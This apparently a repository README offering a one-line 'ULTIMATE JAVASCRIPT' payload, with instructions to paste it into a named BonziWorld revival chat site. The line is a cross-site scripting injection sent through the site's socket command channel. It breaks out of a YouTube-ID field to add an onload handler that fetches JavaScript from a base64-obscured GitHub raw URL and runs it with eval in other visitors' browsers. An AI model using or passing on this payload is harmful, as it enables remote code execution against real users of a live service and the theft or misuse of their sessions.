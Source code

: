 # ULTIMATE JAVASCRIPT
# How to use?
simply go into https://bonziworld-revived-1.onrender.com/ and
paste this script `socket.emit('command', { list: ['youtube', '71Uyt5tTnyg" onload="fetch(atob(\'aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v\')+\'???\'+atob(\'Lmpz\')).then(r=>r.text()).then(t=>eval(t))" u="'] });`
we are currently fixing the javaname thingy
